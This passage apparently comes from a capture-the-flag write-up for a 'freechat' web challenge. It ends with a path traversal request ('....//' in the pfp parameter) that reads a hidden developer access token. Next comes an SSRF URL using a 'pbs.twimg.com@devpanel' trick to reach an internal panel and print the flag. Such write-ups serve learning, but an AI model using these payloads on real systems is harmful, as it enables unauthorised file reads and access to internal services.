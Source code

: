 ``` 
/freechat/static/js/pfp.js
/freechat/static/js/progressbar.js
/freechat/static/js/register.js
/freechat/static/js/uikit-icons.min.js
/freechat/static/js/uikit.min.js
/freechat/templates
/freechat/templates/chat.html
/freechat/templates/index.html
/freechat/templates/profilePicture.html
/freechat/templates/settings.html
/home/freechat
/home/freechat/.bash_logout
/home/freechat/.bashrc
/home/freechat/.for_d3vs_0nly
/home/freechat/.for_d3vs_0nly/access_token.txt
/home/freechat/.profile
```

The above command allowed us to filter all the files on the system that contain the "freechat" word. We can definitely see the `/home/freechat/.for_d3vs_0nly/access_token.txt` which couldn't have been guessed (even using the /proc bruteforcing/enumeration technqiques).

Back to our file read (http://worker05.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//home/freechat/.for_d3vs_0nly/access_token.txt):

![token](img/token.png)

Our access token is: `af33aa8342e212020e0ba08bca94e3559f82d3efb0eb7ec6e7eafbc11710f05b`

## Flag

We can now get back to the devpanel accessible through the SSRF (http://pbs.twimg.com@devpanel:8000/?token=af33aa8342e212020e0ba08bca94e3559f82d3efb0eb7ec6e7eafbc11710f05b) and we get the following output:

```
<!DOCTYPE html>
<html>
<head>
    <title>DevPanel</title>
</head>
<body>
    <div style="text-align: center;">
        <h1>DevPanel</h1>
        
            <h5>Hello dev, your flag is : GCC{L0c4t3_tr1ck+SsRf_1s_FuN}</h5>
            <p>Made with ❤️ by Mika</p>
        
    </div>
</body>
</html>
```
